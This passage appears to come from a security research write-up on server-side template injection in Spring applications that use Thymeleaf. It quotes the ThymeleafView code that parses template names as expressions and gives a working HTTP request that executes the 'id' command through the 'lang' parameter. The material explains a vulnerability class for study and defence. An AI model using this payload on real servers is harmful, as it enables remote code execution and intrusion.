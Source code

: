 The first case may contain a potential path traversal vulnerability, but a user is limited to the 'templates' folder on the server and cannot view any files outside it. The obvious exploitation approach would be to try to find a separate file upload and create a new template, but that's a different issue.

**Luckily for bad guys**, before loading the template from the filesystem, [Spring ThymeleafView](https://github.com/thymeleaf/thymeleaf-spring/blob/74c4203bd5a2935ef5e571791c7f286e628b6c31/thymeleaf-spring3/src/main/java/org/thymeleaf/spring3/view/ThymeleafView.java) class parses the template name as an expression:
```java
try {
   // By parsing it as a standard expression, we might profit from the expression cache
   fragmentExpression = (FragmentExpression) parser.parseExpression(context, "~{" + viewTemplateName + "}");
}
```
So, the aforementioned controllers may be exploited not by path traversal, but by expression language injection:
#### Exploit for /path (should be url-encoded)
```http
GET /path?lang=__${new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("id").getInputStream()).next()}__::.x HTTP/1.1
```
<p align="center"><img src="./exploit.png" width="600px" alt="exploit image"></p>
